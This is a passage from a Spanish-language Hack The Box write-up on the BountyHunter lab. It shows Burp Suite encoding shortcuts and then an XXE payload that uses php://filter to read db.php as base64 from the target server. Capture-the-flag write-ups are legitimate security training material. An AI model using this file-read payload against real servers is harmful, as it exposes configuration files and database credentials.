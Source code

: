 ![](/assets/images/post_HTB_bountyhunter/burp9.png)

__Nota__: lo anterior lo hemos hecho con la pestaña "decoder" del propio burp pero hay una manera más sencilla y directa que es utilizando un conjunto de teclas:  

*ctrl+shift+u --> Pasa de URLencode a Base64  

*ctrl+shift+b --> Decodifica

Como anteriormente descubrimos un db.php que “no hacía nada” y tiene pinta de ser de una base de datos o algo, podemos intentar verlo de la siguiente manera la cual nos dará el contenido de la información en base64:
~~~
<?xml  version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE data [<!ENTITY file SYSTEM "php://filter/read=convert.base64-encode/resource=/var/www/html/db.php"> ]>
		<bugreport>
		<title>&file;</title>
		<cwe>prueba</cwe>
		<cvss>prueba</cvss>
		<reward>prueba</reward>
		</bugreport>
~~~
